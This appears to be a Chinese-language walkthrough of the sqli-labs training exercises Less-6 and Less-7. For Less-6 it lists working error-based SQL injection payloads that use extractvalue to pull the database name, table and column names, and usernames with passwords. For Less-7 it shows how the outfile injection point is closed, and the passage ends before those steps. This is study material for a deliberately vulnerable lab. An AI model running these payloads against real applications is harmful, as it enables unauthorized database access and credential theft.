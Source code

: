 

## Less-6

##### 注入类型

报错注入

##### 注入点

- 输入`payload:?id=1`回显为![image-20201022204407210](https://cdn.jsdelivr.net/gh/chenzh66/Typort_private/img/20210411114654.png)
- 输入`payload:?id=1'`回显也为![image-20201022204407210](https://cdn.jsdelivr.net/gh/chenzh66/Typort_private/img/20210411114654.png)
- 输入`payload:?id=1"`会回显报错

所以可以通过`"`来使其报错，从而实现报错注入

##### 获取数据方式

- 通过`extractvalue`来报错注入查询

##### 注入步骤

- 报错注入不需要判断字段数，所以直接爆数据库名`payload:?id=1" or extractvalue(1,concat(0x7e,(select database()),0x7e))%23`
- 爆数据表`payload:id=1" or extractvalue(1,concat('~',(select group_concat(table_name) from information_schema.tables where table_schema=database()),'~'))%23`
- 爆字段`payload:id=1" or extractvalue(1,concat('~',(select group_concat(column_name)from information_schema.columns where table_name='users'),'~'))%23` 右：`id=1" or extractvalue(1,right(concat('~',(select group_concat(column_name)from information_schema.columns where table_name='users'),'~'),32))%23`
- 爆数据`payload:?id=1" and extractvalue(1, concat(0x7e,(select (group_concat(username,password)) from users),0x7e))%23` `payload:?id=1" and extractvalue(1, right(concat(0x7e,(select (group_concat(username,password)) from users),0x7e),32))%23`

## Less-7

##### 注入类型

outfile (文件导入方式注入)

##### 注入点

- 在后面加`'`,`"`都是返回错误![image-20201026124251529](https://cdn.jsdelivr.net/gh/chenzh66/Typort_private/img/20210411114655.png)

- 在后面加`'))`回显正常![image-20201026124346668](https://cdn.jsdelivr.net/gh/chenzh66/Typort_private/img/20210411114656.png)

  所以可以使用`'))`来闭合它然后自己添加语句

##### 注入方式

文件导入方式注入

##### 注入步骤
